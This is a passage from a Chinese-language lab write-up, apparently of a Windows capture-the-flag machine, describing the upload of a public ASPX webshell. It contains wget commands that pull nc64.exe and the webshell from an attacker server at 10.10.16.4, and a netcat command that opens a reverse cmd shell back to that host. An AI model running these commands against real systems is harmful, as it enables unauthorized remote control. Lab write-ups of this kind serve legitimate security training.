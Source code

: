 这里有个奇怪的点是过段时间在development目录下又会生成一个development目录，访问子目录才是正确的，上传aspx的webshell，网上找到的webshell

[webshell/fuzzdb-webshell/asp/cmd.aspx at master · tennc/webshell](./https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)

![image-20250429174241203](./Flight-Windows_active/image-20250429174241203.png)

wget http://10.10.16.4:8001/nc64.exe -outfile nc64.exe

wget http://10.10.16.4:8000/cmd.aspx -outfile cmd.aspx

![image-20250429174453586](./Flight-Windows_active/image-20250429174453586.png)

```
/c C:\inetpub\development\development\nc64.exe -e cmd 10.10.16.4 446
```

![image-20250429174616465](./Flight-Windows_active/image-20250429174616465.png)
